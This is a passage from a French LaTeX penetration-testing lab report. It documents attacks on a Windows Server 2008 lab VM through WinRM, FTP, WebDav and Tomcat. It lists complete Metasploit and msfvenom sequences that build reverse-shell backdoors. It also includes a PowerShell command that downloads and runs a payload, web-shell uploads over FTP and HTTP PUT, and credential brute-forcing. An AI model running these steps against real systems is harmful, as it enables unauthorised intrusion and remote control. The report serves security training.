5985/tcp (http)  administrator  vagrant  WORKSTATION  Password
\end{Verbatim}
        \end{example}
        \textbf{Note}: certaines informations ont été enlevées pour que tout rentre dans la largeur de la page.
    \end{example}
    \item Maintenant que j'ai ces informations, je peux lancer l'exploit.
    \begin{example}
        Commande utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize use exploit/windows/winrm/winrm\_script\_exec}
            \item \texttt{\footnotesize set USERNAME administrator}
            \item \texttt{\footnotesize set PASSWORD vagrant}
            \item \texttt{\footnotesize set RHOSTS 192.168.1.4}
            \item \texttt{\footnotesize set LHOST 192.168.1.3}
            \item \texttt{\footnotesize set FORCE\_VBS true}
            \item \texttt{\footnotesize show targets}
            \item \texttt{\footnotesize set TARGET 0}
            \item \texttt{\footnotesize set payload windows/meterpreter/reverse\_tcp}
            \item \texttt{\footnotesize run}
        \end{itemize}
        Le résultat est un \textcolor{blue}{\textbf{succès}}, j'ai accès à une session meterpreter sur la machine cible (figure \ref{fig:SuccessWinRM}).
    \end{example}
    \begin{figure}[H]
        \centering
        
\includegraphics[width=0.95\linewidth]{images/success-winrm-windows.PNG}
        \caption{Succès du gain d'accès avec WinRM sans Powershell}
        \label{fig:SuccessWinRM}
    \end{figure}
    \item Comme la session créée précédemment n'utilise pas powershell (car \texttt{FORCE\_VBS} est mis à vrai), je vais utiliser un autre module et powershell. Malheureursement, le payload powershell ne fonctionnait pas (car la version de powershell supportée sur le système du serveur est trop vieille). J'ai donc envoyé comme payload une commande powershell qui va revenir chercher le payload sur la kali. Pour cela, j'ai donc besoin (1.) d'un terminal qui va écouter pour ouvrir la session meterpreter, (2.) d'un terminal qui va servir de serveur web pour envoyer le payload du premier terminal, et (3.) d'un terminal qui envoie la commande de téléchargement du payload au serveur.
    \begin{example}
        \begin{enumerate}
            \item Terminal du dessus sur la figure \ref{fig:SuccessWinRM2}:
            \begin{itemize}
                \item \texttt{\footnotesize search windows reverse tcp payload}
                \item \texttt{\footnotesize use multi/handler}
                \item \texttt{\footnotesize set payload windows/x64/meterpreter/reverse\_tcp}
                \item \texttt{\footnotesize set LHOST 192.168.1.3}
                \item \texttt{\footnotesize run}
            \end{itemize}
            \item Terminal en bas à gauche sur la figure \ref{fig:SuccessWinRM2}:
            \begin{itemize}
                \item \texttt{\footnotesize msfvenom -{}-list format}
                \item \texttt{\footnotesize msfvenom -p windows/x64/meterpreter/reverse\_tcp -f exe} \\ \texttt{\footnotesize LHOST=192.168.1.3 LPORT=4444 -o backdoor.exe}
                \item \texttt{\footnotesize sudo python3 -m http.server 80}
            \end{itemize}
            \item Terminal en bas à droite sur la figure \ref{fig:SuccessWinRM2}:
            \begin{itemize}
                \item \texttt{\footnotesize use auxiliary/scanner/winrm/winrm\_cmd}
                \item \texttt{\footnotesize set RHOSTS 192.168.1.4}
                \item \texttt{\footnotesize set USERNAME administrator}
                \item \texttt{\footnotesize set PASSWORD vagrant}
                \item \texttt{\footnotesize set CMD powershell; Invoke-RestMethod http://192.168.1.3/backdoor.exe} \\ \texttt{\footnotesize -OutFile backdoor.exe; ./backdoor.exe}
                \item \texttt{\footnotesize run}
            \end{itemize}
        \end{enumerate}
        C'est un \textcolor{blue}{\textbf{succès}}, j'ai réussi à obtenir une session meterpreter comme vous pouvez le voir dans le terminal du dessus de la figure \ref{fig:SuccessWinRM2}.
    \end{example}
    \begin{figure}[H]
        \centering
        
\includegraphics[width=0.99\linewidth]{images/success-winrm-02.PNG}
        \caption{Succès du gain d'accès avec WinRM et Powershell}
        \label{fig:SuccessWinRM2}
    \end{figure}
\end{enumerate}
\textbf{Remarque}: il faut migrer rapidement la session meterpreter car elle se ferme lorsque le payload téléchargé s'arrête. Il s'arrête quand le module \texttt{\footnotesize scanner/winrm/winrm\_cmd} termine, c'est-à-dire qu'on a quelque secondes. Je couvre le maintien de session plus en détail dans la section sur la post-exploitation.





\newpage \subsubsection{Windows Server - Microsoft ftpd \& WebDav}





\begin{enumerate}
    \item Avant de chercher les exploitations possibles du service ftp, j'ai essayé de déterminer plus précisément la version du service avec le module \textit{auxiliary/scanner/ftp/ftp\_version}.
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
[+] 192.168.1.4:21 - FTP Banner: '220 Microsoft FTP Service\x0d\x0a'
[*] 192.168.1.4:21 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{Verbatim}
    \end{example}
    \item Chercher les vulnérabilités dans msfconsole: \texttt{\footnotesize search Microsoft FTP Service}.
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
Matching Modules
================

#  Name                                           Rank    Check
-  ----                                           ----    -----
0  auxiliary/dos/windows/ftp/iis75_ftpd_iac_bof   normal  No
1  auxiliary/dos/windows/ftp/iis_list_exhaustion  normal  No
2  exploit/windows/ftp/ms09_053_ftpd_nlst         great   No
\end{Verbatim}
        \textbf{Note}: certaines informations ont été enlevées pour que tout rentre dans la largeur de la page.
    \end{example}
    \item J'aimerais bien travailler avec le troisième module car c'est le seul exploit. Cet exploit utilise un buffer overflow dans le FTP IIS Pour l'utiliser, il faut avoir des droits en écriture sur le serveur. Je vais donc essayer d'obtenir les informations de login avec une attaque par force brute en commançant avec le login et le mot de passe que j'ai obtenu en attaquant WinRM.
    \begin{example}
        Commandes utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize use auxiliary/scanner/ftp/ftp\_login}
            \item \texttt{\footnotesize set USERNAME administrator}
            \item \texttt{\footnotesize set PASSWORD vagrant}
            \item \texttt{\footnotesize run}
        \end{itemize}
        C'est un \textcolor{blue}{\textbf{succès}}, cet identifiant peut se connecter au serveur ftp.
    \end{example}
    \item Maintenant, je vais utiliser le seul exploit disponible dont j'ai parlé précédemment.
    \begin{example}
        Commande utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize use exploit/windows/ftp/ms09\_053\_ftpd\_nlst}
            \item \texttt{\footnotesize set RHOSTS 192.168.1.4}
            \item \texttt{\footnotesize set LHOST 192.168.1.3}
            \item \texttt{\footnotesize set FTPUSER administrator}
            \item \texttt{\footnotesize set FTPPASS vagrant}
            \item \texttt{\footnotesize set payload windows/meterpreter/reverse\_tcp}
            \item \texttt{\footnotesize run}
        \end{itemize}
        Le résultat est un \textcolor{red}{\textbf{échec}}, bien que la cible a l'air vulnérable, metasploit n'arrive pas à obtenir un accès à la machine (figure \ref{fig:failFtpWindows}).
    \end{example}
    \begin{figure}[H]
        \centering
        
\includegraphics[width=0.95\linewidth]{images/fail-ftp-windows.PNG}
        \caption{Échec de gain d'accès avec Microsoft ftpd}
        \label{fig:failFtpWindows}
    \end{figure}
    \item Comme je n'arrive pas à trouver une faille dans le service directement, je vais me connecter en ftp pour obtenir essayer de trouver un problème de configuration possible en espérant qu'on puisse uploader une backdoor et réussir à l'exécuter d'une manière ou d'une autre.
    \begin{example}
        Commandes utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize ftp 192.168.1.4}
            \item \texttt{\footnotesize administrator}
            \item \texttt{\footnotesize vagrant}
            \item \texttt{\footnotesize ls}
        \end{itemize}
        Résultat:
        \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
05-02-21  02:16AM       <DIR>          aspnet_client
05-23-21  01:20AM       <DIR>          BVKDAKOFBU
05-02-21  02:12AM                   28 caidao.asp
05-23-21  02:12AM       <DIR>          EDVVPXRTVC
05-02-21  02:12AM                34251 hahaha.jpg
05-02-21  02:12AM              1116928 index.html
05-23-21  01:32AM       <DIR>          NLHIWPHDGK
05-02-21  02:12AM              2439511 seven_of_hearts.html
05-02-21  02:12AM               384916 six_of_diamonds.zip
05-23-21  02:09AM       <DIR>          TDXUSQPTXD
05-02-21  02:15AM               184946 welcome.png
05-23-21  01:33AM       <DIR>          XUIAOKAYLH
05-23-21  01:26AM       <DIR>          XWLKGEXSSP
05-23-21  02:11AM       <DIR>          ZMAVMPFZIQ
\end{Verbatim}
        \end{example}
        \textcolor{blue}{\textbf{Bonne nouvelle !}} On arrive dans le dossier qui est utilisé par le serveur web (port 80) pour stocker ses fichiers web.
    \end{example}
    \item Comme le service derrière le port 80 est un serveur asp.net, pour l'attaquer, on a besoin d'un exécutable aspx. Après l'avoir mis sur le serveur ftp, on va aller sur l'url: http://192.168.1.4:80/backdoor.aspx, pour activer la backdoor et obtenir un accès à la machine.
    \begin{example}
        Commandes utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize msfvenom -{}-list format}
            \item \texttt{\footnotesize msfvenom -p windows/x64/meterpreter/reverse\_tcp -f aspx} \\ \texttt{\footnotesize LHOST=192.168.1.3 LPORT=4444 -o backdoor.aspx}
            \item \texttt{\footnotesize ftp 192.168.1.4}
            \item \texttt{\footnotesize administrator}
            \item \texttt{\footnotesize vagrant}
            \item \texttt{\footnotesize put backdoor.aspx}
            \item \texttt{\footnotesize exit}
            \item \texttt{\footnotesize use exploit/multi/handler}
            \item \texttt{\footnotesize set payload windows/x64/meterpreter/reverse\_tcp}
            \item \texttt{\footnotesize set LHOST 192.168.1.3}
            \item \texttt{\footnotesize set LPORT 4444}
            \item \texttt{\footnotesize run}
        \end{itemize}
        C'est une \textcolor{blue}{\textbf{réussite}}, après avoir été sur le lien, on obtient bien un accès avec meterpreter au serveur, comme on peut le voir sur le terminal du dessus de la figure \ref{fig:ftpSuccess}.
    \end{example}
    \begin{figure}[H]
        \centering
        
\includegraphics[width=0.95\linewidth]{images/success-ftp-windows.PNG}
        \caption{Succès de l'obtention d'un accès avec ftp}
        \label{fig:ftpSuccess}
    \end{figure}
\end{enumerate}





\newpage





Dans les consignes, WebDav est mis avec FTP. Donc voici mes recherches sur l'exploitation du service WebDav (sur Windows Server):
\begin{enumerate}
    \item J'ai essayé de lancer un exploit dès le début car il y avait l'air d'y en avoir beaucoup. Cependant, il n'a pas fonctionné comme on peut le voir sur la figure \ref{fig:failWebdav01}.
    \begin{example}
        Commandes utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize search webdav}
            \item \texttt{\footnotesize use windows/scada/ge\_proficy\_cimplicity\_gefebt}
            \item \texttt{\footnotesize set RHOSTS 192.168.1.4}
            \item \texttt{\footnotesize set RPORT 8585}
            \item \texttt{\footnotesize set LHOST 192.168.1.3}
            \item \texttt{\footnotesize set SRVHOST 192.168.1.3}
            \item \texttt{\footnotesize check}
            \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
[*] 192.168.1.4:8585 - Cannot reliably check exploitability.
\end{Verbatim}
            \end{example}
            \item \texttt{\footnotesize run}
        \end{itemize}
        C'est un \textcolor{red}{\textbf{échec}}, metasploit n'arrive pas obtenir un accès avec WebDav (figure \ref{fig:failWebdav01}).
    \end{example}
    \begin{figure}[H]
        \centering
        
\includegraphics[width=0.90\linewidth]{images/fail-webdav-windows-01.PNG}
        \caption{Échec de gain d'accès avec WebDav}
        \label{fig:failWebdav01}
    \end{figure}
    \item Après cet échec déconcertant, j'ai lancé un scanner pour vérifier si webdav était bien activé.
    \begin{example}
        Commandes utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize search webdav}
            \item \texttt{\footnotesize use auxiliary/scanner/http/webdav\_scanner}
            \item \texttt{\footnotesize set RHOSTS 192.168.1.4}
            \item \texttt{\footnotesize set RPORT 8585}
            \item \texttt{\footnotesize run}
        \end{itemize}
        Le scanner fonctionne correctement (figure \ref{fig:webDavDisabled}). Cependant, il indique que WebDav est \textcolor{red}{\textbf{désactivé}} !
    \end{example}
    \begin{figure}[H]
        \centering
        
\includegraphics[width=0.90\linewidth]{images/webdav-disabled.PNG}
        \caption{Scanner montrant que WebDav est désactivé}
        \label{fig:webDavDisabled}
    \end{figure}
    \item J'ai donc essayé de changer le chemin d'exécution en: /uploads, et j'ai \textcolor{blue}{\textbf{réussi}} à trouver webdav (figure \ref{fig:webDavEnabled}).
    \begin{figure}[H]
        \centering
        
\includegraphics[width=0.95\linewidth]{images/webdav-enabled.PNG}
        \caption{Scanner montrant que WebDav est activé}
        \label{fig:webDavEnabled}
    \end{figure}
    \item Malheureursement, la faille le module d'exploitation que j'ai utilisé ci-dessus ne fonctionne toujours pas en modifiant le chemin. Je vais continuer à chercher une faille mais maintenant en cherchant à uploader des fichiers avec la méthode put (car webdav est un serveur de fichier http). Comme wampserver, le serveur fonctionnant sur le port 8585, est un serveur http, on devrait pouvoir mettre une backdoor php pour obtenir un accès au serveur.
    \begin{example}
        Commandes utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize search http put scanner}
            \item \texttt{\footnotesize use auxiliary/scanner/http/http\_put}
            \item \texttt{\footnotesize set PATH /uploads}
            \item \texttt{\footnotesize set RHOSTS 192.168.1.4}
            \item \texttt{\footnotesize set RPORT 8585}
            \item \texttt{\footnotesize run}
        \end{itemize}
        Comme je l'avais imaginé, webdav \textcolor{blue}{\textbf{autorise bien}} la méthode put !
    \end{example}
    \begin{figure}[H]
        \centering
        
\includegraphics[width=0.85\linewidth]{images/webdav-put-scanner.PNG}
        \caption{Scanner webdav montrant que la méthode PUT est autorisée}
        \label{fig:webdavPut}
    \end{figure}
    \item Il ne reste plus qu'à créer le payload et l'utiliser pour gagner l'accès à la machine.
    \begin{example}
        Commandes utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize search php meterpreter reverse tcp}
            \item \texttt{\footnotesize msfvenom -p php/meterpreter/reverse\_tcp} \\ \texttt{\footnotesize LHOST=192.168.1.3 LPORT=4444 -o backdoor.php}
            \item \texttt{\footnotesize curl http://192.168.1.4:8585/uploads/backdoor.php} \\ \texttt{\footnotesize -{}-upload-file backdoor.php}
            \item \texttt{\footnotesize use exploit/multi/handler}
            \item \texttt{\footnotesize set payload php/meterpreter/reverse\_tcp}
            \item \texttt{\footnotesize set LHOST 192.168.1.3}
            \item \texttt{\footnotesize set LPORT 4444}
            \item \texttt{\footnotesize run}
        \end{itemize}
        C'est un \textcolor{blue}{\textbf{succès}} ! Vous pouvez voir le résultat sur la figure \ref{fig:successWebDav}.
    \end{example}
    \begin{figure}[H]
        \centering
        
\includegraphics[width=0.95\linewidth]{images/success-webdav.PNG}
        \caption{Succès de l'accès au serveur en utilisant le service WebDav}
        \label{fig:successWebDav}
    \end{figure}
\end{enumerate}
\textbf{Remarque}: je couvre le maintien de session plus en détail dans la section sur la post-exploitation.





% \subsubsection{...}





% ...phpmyadmin...

% \begin{enumerate}
%     \item Après avoir essayé tous les exploits ne demandant pas de nom d'utilisateur ni de mot de passe sans succès, j'ai essayé de lancer une attaque par force brute pour les déterminer. Comme il y a de fortes chances qu'il y ait un utilisateur \textit{phpmyadmin}, je n'ai utilisé une liste que pour les mots de passe.
%     \begin{example}
%         Commandes utilisées:
%         \begin{itemize}
%             \item \texttt{\footnotesize search phpmyadmin}
%             \item \texttt{\footnotesize use 1}
%             \item \texttt{\footnotesize set targeturi /phpmyadmin}
%             \item \texttt{\footnotesize set username phpmyadmin}
%             \item \texttt{\footnotesize set pass\_file /usr/share/wordlists/metasploit/unix\_passwords.txt}
%             \item \texttt{\footnotesize set RHOSTS 192.168.1.5}
%             \item \texttt{\footnotesize set VHOST 192.168.1.3}
%             \item \texttt{\footnotesize run}
%         \end{itemize}
%         C'est un \textcolor{blue}{\textbf{succès}}, on a trouvé le mot de passe de l'utilisateur phpmyadmin: vagrant.
%     \end{example}
%     \item ...
% \end{enumerate}





% \subsubsection{SNMP}





% Bizarrement, le service SNMP n'a pas été découvert par nmap. Pour le découvrir, j'utilise donc: \texttt{\footnotesize nmap -p 161 -sU -sV}. On apprend que le port est bien ouvert et le service derrière est: SNMPv1 server (public).

% \begin{enumerate}
%     \item ...
%     \begin{example}
%         \begin{itemize}
%             \item \texttt{\footnotesize search snmp}
%             \item \texttt{\footnotesize use auxiliary/scanner/snmp/snmp\_enumusers}
%             \item \texttt{\footnotesize set RHOSTS 192.168.1.4}
%             \item \texttt{\footnotesize run}
%         \end{itemize}
%         \begin{example}
% \begin{Verbatim}[fontsize=\footnotesize]
% [+] 192.168.1.4:161 Found 21 users: Administrator, Guest, anakin_skywalker,
% artoo_detoo, ben_kenobi, boba_fett, c_three_pio, chewbacca, darth_vader,
% etu43813, greedo, han_solo, jabba_hutt, jarjar_binks, kylo_ren,
% lando_calrissian, leia_organa, luke_skywalker, sshd, sshd_server, vagrant
% [*] Scanned 1 of 1 hosts (100% complete)
% [*] Auxiliary module execution completed
% \end{Verbatim}
%         \end{example}
%     \end{example}
%     \item ...
%     \begin{example}
%         \begin{itemize}
%             \item \texttt{\footnotesize }
%             \item \texttt{\footnotesize }
%             \item \texttt{\footnotesize }
%             \item \texttt{\footnotesize use }
%             \item \texttt{\footnotesize set RHOSTS 192.168.1.4}
%             \item \texttt{\footnotesize }
%             \item \texttt{\footnotesize }
%             \item \texttt{\footnotesize }
%             \item \texttt{\footnotesize run}
%         \end{itemize}
%     \end{example}
% \end{enumerate}





\newpage \subsubsection{Windows Server - Tomcat}





%% démarrer le service: /!\ le démarrer en admin !!
% 1. cd C:\Program Files\Apache Software Foundation\tomcat\apache-tomcat-8.0.33\bin
% 2. catalina.bat start

Apache Tomcat est un serveur web java. Il tourne sur le port 8282 de la machine Windows Server 2008. Je vais essayer d'obtenir des accès administrateur dessus pour in fine avoir un accès à la machine en ligne de commande. Malheureursement, le service n'est pas installé par défaut, c'est ce que je fais sur la figure \ref{fig:installTomcat}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.90\linewidth]{images/install-tomcat-service.PNG}
    \caption{Installation du service Tomcat}
    \label{fig:installTomcat}
\end{figure}

\begin{enumerate}
    \item D'abord, je vais chercher les noms d'utilisateur disponibles sur le services.
    \begin{example}
        Commandes utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize search tomcat scanner}
            \item \texttt{\footnotesize use auxiliary/scanner/http/tomcat\_enum}
            \item \texttt{\footnotesize set RHOSTS 192.168.1.4}
            \item \texttt{\footnotesize set RPORT 8282}
            \item \texttt{\footnotesize set USER\_FILE /usr/share/wordlists/metasploit/unix\_users.txt}
            \item \texttt{\footnotesize set targeturi /manager}
            \item \texttt{\footnotesize run}
        \end{itemize}
        Le résultat est \textcolor{blue}{\textbf{très bon}} car j'ai trouvé des dizaines de logins.
        \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
[+] http://192.168.1.4:8282/manager - Users found: , 4Dgifts, Debian-exim,
Debian-snmp, EZsetup, OutOfBox, ROOT, _apt, abrt, adm, admin, administrator,
anon, arpwatch, auditor, avahi, avahi-autoipd, backup, bbs, beef-xss, bin,
bitnami, checkfs, checkfsys, checksys, chronos, chrony, cmwlogin,
cockpit-ws, colord, couchdb, cups-pk-helper, daemon, dbadmin, dbus, demo,
demos, diag, distccd, dni, dnsmasq, dradis, fal, fax, ftp, games, gdm,
geoclue, gnats, gnome-initial-setup, gopher, gropher, guest, haldaemon, halt,
hplip, inetsim, informix, install, iodine, irc, jet, karaf, kernoops,
king-phisher, landscape, libstoragemgmt, libuuid, lightdm, list, listen, lp,
lpadm, lpadmin, lxd, lynx, mail, man, me, messagebus, miredo, mountfs,
mountfsys, mountsys, mysql, news, noaccess, nobody, nobody4, ntp, nuucp,
nxautomation, nxpgsql, omi, omsagent, operator, oracle, pi, polkitd,
pollinate, popr, postfix, postgres, postmaster, printer, proxy, pulse,
redsocks, rfindd, rje, root, rooty, rpc, rpcuser, rtkit, rwhod, saned,
service, setroubleshoot, setup, sgiweb, shutdown, sigver, speech-dispatcher,
sshd, sslh, sssd, stunnel4, sym, symop, sync, sys, sysadm, sysadmin, sysbin,
syslog, system_admin, systemd-bus-proxy, systemd-coredump, systemd-network,
systemd-resolve, systemd-timesync, tcpdump, trouble, tss, udadmin, ultra,
